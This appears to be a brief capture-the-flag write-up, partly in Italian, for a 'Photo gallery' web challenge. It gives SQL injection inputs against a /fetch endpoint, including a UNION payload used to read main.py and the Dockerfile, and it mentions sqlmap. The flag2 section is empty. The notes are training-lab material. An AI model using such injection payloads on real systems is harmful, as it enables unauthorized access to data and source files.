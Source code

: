 ## Photo gallery

# flag0

+ Hint: Consider how you might build this system yourself. What would the query for fetch look like?

![picture](imgs/1.png)

+ `/fetch?id=1 OR 1=1 --` non manda in errore l'esecuzione della query

+ Hint: This application runs on the [uwsgi-nginx-flask-docker image](https://github.com/tiangolo/uwsgi-nginx-flask-docker)

+ ![picture](imgs/2.png)

+ Hint : Take a few minutes to consider the state of the union

+ `/fetch?id=22 UNION select 'main.py'--` , come da immagine è possibile leggere anche Dockerfile

# flag1

+ [sqlmap](https://github.com/sqlmapproject/sqlmap)

+ ![picture](imgs/3.png)

# flag2
